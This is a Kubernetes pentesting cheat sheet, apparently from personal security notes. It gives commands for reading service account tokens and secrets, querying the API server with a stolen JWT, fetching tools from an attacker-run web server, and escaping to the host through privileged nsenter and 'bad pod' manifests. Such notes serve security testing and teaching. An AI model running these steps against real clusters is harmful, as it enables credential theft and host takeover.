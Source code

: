 ```yaml
---
title: Kubernetes Pentesting
description: A portable, extensible, open source platform for managing containerized workloads and services, that facilitates both declarative configuration and automation. Default ports are 6443, 8443.
tags:
    - Container
refs:
date: 2024-08-11
draft: false
---
```


## Check if the Kubectl Command Available in Target Machine

```sh
kubectl -h
k0s -h
k0s kubectl -h
microk8s kubectl -h
```

If we cannot find kubectl, upload the binary from local machine.  
First off, install the kubectl in local machine.

```sh
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
python3 -m http.server
```

Then download the binary file into remote machine.

```sh
wget http://<local-ip>:8000/kubectl -O /tmp/kubectl
chmod +x /tmp/kubectl
```

<br />

## Investigation From Inside

### JWT

```sh
cat /var/run/secrets/kubernetes.io/serviceaccount/token
# if we find the token, decode it in https://jwt.io/
```

### Sensitive Information

```sh
ls -a /var/lib/k0s/containerd/
```

### Permissions

```sh
kubectl auth can-i --list
# /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl auth can-i --list --token=<JWT>
```

### All Information

```sh
# All information
kubectl get all
```

### Pods

```sh
kubectl get pods
# -A: List all pods across all namespaces
kubectl get pods -A
# Get the detail information abou the pod
# -o: Output format
kubectl get pod <pod-name> -o yaml
# Specify the namespace
kubectl get pod <pod-name> -n <namespace> -o yaml

# Get detailed information
kubectl describe pods <pod-name>
kubectl describe pod -n <namespace>
# ClusterRole information
kubectl describe clusterrole <role-name>
# ClusterRoleBinding information
kubectl describe clustrrolebinding <role-name>
```

### Services

```sh
# Services
kubectl get svc
```

### Jobs

```sh
# Jobs
kubectl get job -n <namespace>
# -o: Output details
kubectl get job -n <namespace> -o json
```

### Secrets

```sh
# Secrets
kubectl get secrets
kubectl get secrets -n <namespace>

# Get the specific secret
kubectl get secret <secret-name> -o json
kubectl get secret <secret-name> -n <namespace> -o json

# Edit the secret
kubectl edit secret <secret-name>
kubectl edit secret <secret-name> -n <namespace>

# List all data contained in the specific secret
kubectl describe secret <secret-name>
kubectl describe secret <secret-name> -n <namespace>
```

### ServiceAccount

```sh
# Get a ServiceAccounts
kubectl get serviceaccount
kubectl get serviceaccount -n <namespace>

# Create a ServiceAccount
kubectl create serviceaccount api-explorer

# Bind the ClusterRole to a ServiceAccount
# eg. namespace: default
kubectl create rolebinding api-explorer:log-reader --clusterrole log-reader --serviceaccount default:api-explorer 
```

<br />

## Investigation via Kubernetes API Server

If we get the JWT, we can fetch information by the following commans.

```sh
# -k: insecure (HTTPS)
curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/pods/
curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/secrets/
```

<br />

## Privilege Escalation (Escape) using the Container Image

### 1. Get Information About the Target Pod

```sh
kubectl get pods
kubectl get pod <target-pod> -o yaml

kubectl describe pod <target-pod>
```

In the output, check the image name in the containers image.

### 2. Create a Pod Yaml File

Create "pod.yaml".  
Replace the containers image value (**\<image_name\>**) with the one we found in the previous section.

```yaml
spec:
  hostPID: true
  containers:
    - name: '1'
      image: <image_name>
      command:
        - nsenter
        - '--mount=/proc/1/ns/mnt'
        - '--'
        - /bin/bash
  stdin: true
  tty: true
  securityContext:
    privileged: true
```

After that, convert the YAML to JSON using online tools such as the [Online Converter](https://www.convertjson.com/yaml-to-json.htm).  
In the tool, check the **“Minimize JSON”** to make the json to the one line.

### 3. Run the New Container to Privilege Escalation

Replace with **\<image_name\>** with the one we found in the previous section.

```sh
kubectl run testbox --restart Never -it --rm --image newimage --overrides '{"spec":{"hostPID":true,"containers":[{"name":"1","image":"<image_name>","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin":true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

Now we should escape the container and get a target shell.

<br />

## Privilege Escalation using Bad Pods

Reference: [everything-allowed-exec-pod.yaml](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml)

### 1. Download the Bad Pod

At first, you need to download the bad pod on your local machine.

```sh
wget https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml -O privesc.yaml
```

After downloading the yaml file, we need to replace the value of **metadata.containers.image** with the **existing container image** that we can find in the target container.  
Then start web server to allow the target machine to get this bad pod.

```sh
python3 -m http.server 8000
```

### 2. Trasfer the Bad Pod to the Target Machine

On the target machine, download the bad pod from your local machine.

```sh
wget http://<your-local-ip>:8000/privesc.yaml
```

### 3. Create the Pod

```sh
# Create the pod
kubectl apply -f privesc.yaml --token=<JWT>

# List all pods
kubectl get pods --token=<JWT>
```

### 4. Get a Shell**

```sh
kubectl exec -it everything-allowed-exec-pod --token=<JWT> -- /bin/bash
```

We should get a shell and can investigate the mounted folder.

```bash
cd /host
```
